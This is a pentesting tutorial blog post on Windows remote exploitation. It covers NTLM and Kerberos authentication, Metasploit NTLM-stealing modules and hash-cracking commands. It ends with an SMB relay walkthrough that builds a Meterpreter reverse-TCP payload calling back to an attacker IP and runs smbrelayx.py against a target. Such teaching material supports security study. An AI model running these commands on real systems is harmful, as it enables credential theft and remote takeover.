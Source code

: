```yaml
---
layout: post
published: true
title: Windows Exploitation 11.2
tags:
  - PWP
  - Intermediate
  - Windows Exploitation
comments: true
---
```

## Windows Remote Exploitation


## Introduction


**_In this blog post, we will learn the Windows Remote Exploitation Techniques and Approaches to engage with a target.
We will also look for examples and usage of tools._**

_Some Approaches we have already discussed in Linux exploitation modules_


**Lower Hanging Fruits**

**We have discussed Low Hanging Fruits Approaches in Linux Exploitation module, the approach is also same for windows, please have a look on that [blog post](https://mrw0r57.github.io/2020-05-30-linux-exploitation-9-1/) .**



**Remote Exploitation of Windows Network**

The exploitation process in which attackers exploit's listening services on the target network and tries to get access to the target system.




**Windows Authentication**

Windows uses two types of authentication protocols for clients and server authentication, NTLM and Kerberos.


**NTLM**

NTLM(New Technology LAN Manager) is the authentication protocol used on networks that include systems running the Windows operating system and on stand-alone systems.

**How NTLM Works?**

1.  A user accesses a client computer and provides a domain name, user name, and password. The client computes a cryptographic hash of the password and discards the actual password.

2.  The client sends the username to the server to authenticate itself.

3.  Then the server generates a 16-byte random number, called a challenge or nonce, and sends it to the requested client.

4.  After that client encrypts this challenge with the hash of the user's password and sends the response of the result to the server. 

5.  Then the server sends, user name, challenge sent to the client, the response received from the client, to the domain controller(Authentication Server).

6.  The domain controller uses the user name to retrieve the hash of the user's password from the SAM (Security Account Manager) database. It uses this password hash to encrypt the challenge.

7.  Then DC compares the encrypted challenge it computed (in step 6) to the response computed by the client (in step 4). If they are identical, authentication is successful for the client system.

[Check For More About NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager#NTLMv2)


[LM/NT hashes Explanation](http://www.adshotgyan.com/2012/02/lm-hash-and-nt-hash.html)

**Kerberos**

Windows domains use Kerberos as the underlying protocol for SSO. A user can log on to the domain at the beginning of the workday, and the system uses the same credentials to access any resources in the domain.
Kerberos is also used by Unix systems nowadays


**How Kerberos Works?**

1.  A user accesses a client computer sends an authentication request to the Kerberos server including user login ID.

2.  The authentication server reply including encrypted symmetric key and time-stamped ticket-granting ticket (TGT)

3.  Then the client sends a network authentication request including TGT and name of the target server, for example, MS Active Directory.

4.  After that Kerberos server reply including session ticket for use with the target server

5.  The client presents a time-stamped session ticket to the target server as the authentication

6.  Finally, the target server provides authentication back to the client.

Authentication Successful!!

[Check For More About Kerberos](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)

**[Also have a look at Windows Security Identifiers (SID)](https://support.microsoft.com/en-us/help/243330/well-known-security-identifiers-in-windows-operating-systems)** **Important**.



**Some NTLM Stealing Metasploit Modules** 


auxiliary/admin/mssql/mssql_ntlm_stealer

``
auxiliary/admin/mssql/mssql_ntlm_stealer
``

Oracle SMB Relay Code Execution

``
auxiliary/admin/oracle/ora_ntlm_stealer
``

Host Information Enumeration via NTLM Authentication

``
auxiliary/scanner/http/ntlm_info_enumeration
``

SMTP NTLM Domain Extraction

``
auxiliary/scanner/smtp/smtp_ntlm_domain 
``

**WinRM Login Utility**

This module attempts to authenticate to a WinRM service.

``
auxiliary/scanner/winrm/winrm_login
``

**To crack NTLM hash**

There are many techniques to crack NTLM hash


[John Hashes Formats](http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)

``
john --format=netlm hashpwd_netntlm
``

**Using Rainbow Tables To Crack Hash**

[rcracki_mt](https://github.com/foreni-packages/rcracki_mt)



Download rainbow tables

[http://project-rainbowcrack.com/table.htm]
[http://ophcrack.sourceforge.net/tables.php]

``
rcracki_mt -h 1f548398f0f49ea1 -t 4 *.rti
``

* -h: It is used to specify the first 8-bytes of the LMHASH
* -t: It is the number of threads to use
* *.rti: It is the path of the downloaded rainbow tables


** Suppose if you found only half of the password**


In ''ls /usr/share/metasploit-framework/tools/password''

There is a tool also which can also use for this purpose known as ruby halflm_second.rb.

``
ruby halflm_second.rb -n 1f548398f0f49ea18e2f0dcb9562b75eaa32e75aebf1d69c -p HALFPSWD
``

To convert  the result into case sensitive password

``
perl netntlm.pl -file /root/hashpwd_netntlm -seed FULLHALFPSWD
``



**SMBRelay Attack**

Its a kind of Man in The Middle attack in which attacker relay SMB authentication requests to another host, gaining access to an authenticated SMB session if successful.


Metasploit Module for this purpose

```
msfconsole
use exploit windows/smb/smb_relay
msf5 exploit(windows/smb/smb_relay) > info
```
**Read about this module by info command on Metasploit**


Another Exploit for SMBRelay, [Click Here](https://www.exploit-db.com/exploits/7125)

**You can also use Impacket's smbrelayx.py for this purpose.**

**smbrelayx.py:** Exploit for CVE-2015-0005 using an SMB Relay Attack. If the target system is enforcing signing and a machine account was provided, the module will try to gather the SMB session key through NETLOGON.

Using Msfvenom create windows reverse TCP .exe payload in order to work with smbrelayx.py

``
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<Port> -f exe -o hacker.exe
``

Start Metasploit Multi/handler in Attacker Machine
``
set exploit/multi/handler
``
Set the options and use smbrelayx.py


``
smbrelayx.py -h <TargetIP> -e /home/hacker.exe
``


To check and use other windows vulnerability's exploit

Run command below in msfconsole

``
show exploits windows
``



## Conclusion

**_We have discussed basic exploitation of windows systems, and we have already discussed some approaches in previous phases, 
Exploitation all depends on the previous phases of pentesting_** 
